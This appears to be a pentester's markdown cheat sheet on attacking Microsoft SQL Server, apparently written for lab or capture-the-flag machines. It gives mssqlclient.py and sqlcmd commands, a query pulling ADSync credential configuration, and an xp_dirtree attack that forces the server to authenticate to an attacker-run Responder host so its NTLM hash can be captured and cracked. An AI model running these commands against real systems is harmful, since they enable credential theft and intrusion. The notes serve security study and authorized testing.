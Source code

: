 	mssqli-cli --help
	mssqli-cli select * from users

## IMPACKET - Mssqlclient.py

- Connect to remote sql db

		python ./mssqlclient.py reporting@10.10.10.125 -db volume -windows-auth

## SQLCMD
https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server

	sqlcmd -L
	sqlcmd -Q "select * from sys.databases"
	sqlcmd -Q "Use ADSync; select private_configuration_xml FROM mms_management_agent"
	sqlcmd -E -S "WORKER\SQLEXPRESS" -Q "select * from sys.databases"

## Exploiting sql vuln
### Get the NTLM Hash from an accoutn using `XP_DirTree`

- Set up Responder on kali

		responder -I tun0
		(Check the firewall)

- Start the attack on the remote windows machine

		sqlcmd -Q "xp_dirtree '\\10.10.14.11\test'"

### Steal NTLM Hash from sql server
[HASHCAT](evernote:///view/154730691/s619/abde3799-29f6-bbe2-b038-8bd119e2604c/1d460891-63f3-60f9-1414-81daf5a18a5c/)

	sudo responder -I <interface> #Run that in other console
	SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat

This stored procedure will display a list of every folder, every subfolder, and every file for path you give it.

- `Xp_dirtree` has three parameters:

	- directory – This is the directory you pass when you call the stored procedure; for example ‘D:Backup’.
	- depth – This tells the stored procedure how many subfolder levels to display. The default of 0 will display all subfolders.
	- file – This will either display files as well as each folder. The default of 0 will not display any files.





# Active Directory
## RECON WITH BLOODHOUND
https://adsecurity.org/?p=3658
